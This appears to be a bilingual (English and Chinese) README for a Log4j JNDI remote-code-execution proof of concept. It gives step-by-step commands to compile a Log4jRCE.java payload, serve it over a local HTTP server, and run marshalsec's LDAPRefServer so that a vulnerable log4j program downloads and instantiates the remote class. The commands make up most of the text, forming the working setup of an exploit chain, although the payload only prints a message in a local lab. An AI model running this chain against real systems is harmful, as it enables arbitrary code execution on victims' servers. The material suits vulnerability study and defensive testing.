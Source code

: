 

### Steps
1. 【Important】***Move*** Log4jRCE.java to /home/remote/Log4jRCE.java, or any other directories except apache-log4j-poc.

2. Compile Log4jRCE.java and start http server
   1. `cd /home/remote`
   2. `javac Log4jRCE.java`
   3. start http server，python or php，`php -S 127.0.0.1:8888`

3. Start ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. start ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
   
4. Start log4j.java, then you can see `I am Log4jRCE from remote!!!`


### 触发步骤
1. 【重要】将Log4jRCE.java **挪出** 当前项目目录，比如挪到/home/remote/Log4jRCE.java，不然log4j.java运行时会读取到本地的Log4jRCE.java，就不走http远程下载了！

2. 编译Log4jRCE.java并启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 127.0.0.1:8888`

3. 启动ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
4. 启动log4j.java，然后就会发现命令行出现了`I am Log4jRCE from remote!!!`。底层就是会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

